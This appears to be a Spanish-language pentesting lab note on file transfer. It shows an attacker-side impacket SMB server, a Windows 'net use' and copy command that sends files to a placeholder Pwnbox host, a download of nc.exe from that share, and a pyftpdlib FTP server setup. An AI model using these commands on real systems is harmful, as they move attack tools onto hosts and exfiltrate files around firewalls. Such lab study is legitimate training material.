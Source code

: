- **Copiar un archivo desde SMB (sin autenticación):**
```
copy \\<Pwnbox-IP>\share\nc.exe
```
Este comando descarga en el directorio actual de trabajo tal archivo.
> Nota: Nuevas versiones de Windows bloquean acceso de invitados no autenticados.



# **\[IMPORTANTÍSIMO]**
## **Montar SMB con usuario y contraseña (desde máquina atacante):**
```
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

Me aseguro que la carpeta /tmp/smbshare se haya creado, de lo contrario, ejecuto:
```
sudo mkdir -p /tmp/smbshare
sudo chmod 777 /tmp/smbshare
ls -ld /tmp/smbshare
``````

- **Conectar al SMB desde Windows:**
```
net use N: \\<Pwnbox-IP>\share /user:test test 
copy C:\ruta_del_archivo N:\
```

- **Notas importantes:**
    - Permite transferir archivos incluso si el firewall bloquea FTP o HTTP.
    - Útil para escenarios de laboratorio o pruebas de pentesting.
    - Montar la unidad (net use) ayuda a evitar errores de acceso directo.

En Linux, acudir a la carpeta siguiente para visualizar los archivos:
```
cd /tmp/smbshare
```

--------------



# FTP Downloads
Protocolo de transferencia de archivos que usa **TCP/21** (comandos) y **TCP/20** (datos).

- **Montar un servidor FTP en el atacante (Pwnbox):**
1. Instalar módulo Python:
```
sudo pip3 install pyftpdlib
```

2. Iniciar servidor FTP en el puerto 21:
```
sudo python3 -m pyftpdlib --port 21`
```
